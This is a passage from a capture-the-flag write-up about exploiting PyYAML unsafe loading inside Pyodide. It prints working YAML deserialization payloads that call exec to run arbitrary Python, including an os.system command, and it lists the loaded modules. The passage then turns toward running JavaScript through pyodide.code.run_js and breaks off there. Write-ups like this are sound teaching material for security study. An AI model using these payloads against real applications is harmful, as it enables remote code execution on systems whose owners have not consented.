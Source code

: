 > Note: At the time of this writeup, the latest version of PyYAML is 6.0.2.

Based on [this uiuctf 2020 "deserializeme" writeup by harrier](https://hackmd.io/@harrier/uiuctf20), we can use the following YAML payload to execute arbitrary Python code:

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(__import__('os').system('id'))"
```

> Note: For more details about the above payload, please feel free to read his writeup!

Let's try that!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117210949.png)

Umm... It doesn't work... It returned `-1`, which means it failed to execute the command. I couldn't figure out why, properly it's because Pyodide's [Emscripten](https://emscripten.org/) doesn't allow us to execute arbitrary commands? Anyway, our goal is to execute arbitrary Python code.

Now, I wonder what modules are imported into Pyodide... To enumerate that, we can just print out `sys.modules`:

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(sys.modules)"
```

Result:

```python
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, [...] 'yaml.cyaml': <module 'yaml.cyaml' from '/lib/python3.12/site-packages/yaml/cyaml.py'>, 'yaml': <module 'yaml' from '/lib/python3.12/site-packages/yaml/__init__.py'>}
```

There are lots of modules. There are 2 loaded modules stood out the most:

```python
{[...], 'pyodide': <module 'pyodide' from '/lib/python312.zip/pyodide/__init__.py'>, 'pyodide.code': <module 'pyodide.code' from '/lib/python312.zip/pyodide/code.py'>, [...]}
```

Huh? We can use JavaScript Pyodide to execute Python Pyodide??

According to [Pyodide Python API documentation](https://pyodide.org/en/stable/usage/api/python-api.html), the **[pyodide.code](https://pyodide.org/en/stable/usage/api/python-api/code.html#module-pyodide.code) module allows us to evaluate Python and JavaScript code**. Hmm? We can run JavaScript?

In module `pyodide.code` [function `run_js`](https://pyodide.org/en/stable/usage/api/python-api/code.html#pyodide.code.run_js), it said:

> A wrapper for the [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval "(in MDN docs)") function.
>  
> Runs `code` as a Javascript code string and returns the result. [...]

Let's try to execute arbitrary JavaScript via function `run_js`!
